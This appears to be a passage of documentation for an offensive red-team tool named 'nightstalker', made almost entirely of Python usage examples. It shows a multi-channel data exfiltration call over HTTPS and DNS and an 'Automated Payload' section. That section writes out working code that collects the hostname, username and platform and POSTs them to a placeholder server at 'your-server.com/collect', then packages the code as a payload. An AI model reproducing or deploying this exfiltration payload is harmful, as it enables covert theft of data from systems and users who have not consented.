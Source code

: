 ```python
results = exfil.exfiltrate_data(
    data=data_bytes,
    channels=['https', 'dns'],
    channel_configs=channel_configs
)

# Check results
for channel, success in results.items():
    print(f"{channel}: {'SUCCESS' if success else 'FAILED'}")
```

### Method 2: Automated Payload

```python
from nightstalker.redteam.payload_builder import PayloadBuilder

# Create exfiltration payload
builder = PayloadBuilder()

exfil_code = '''
import os, json, socket, platform
import urllib.request

def exfil_data():
    # Gather system info
    data = {
        'hostname': socket.gethostname(),
        'user': os.getenv('USERNAME'),
        'platform': platform.platform()
    }
    
    # Exfiltrate via HTTPS
    try:
        req = urllib.request.Request(
            'https://your-server.com/collect',
            data=json.dumps(data).encode(),
            headers={'Content-Type': 'application/json'}
        )
        urllib.request.urlopen(req)
        print("Data exfiltrated successfully")
    except Exception as e:
        print(f"Exfiltration failed: {e}")

exfil_data()
'''

# Build payload
output_path = builder.build_payload(
    payload_type="exfiltration",
    payload_code=exfil_code,
    output_format="python"
)
```
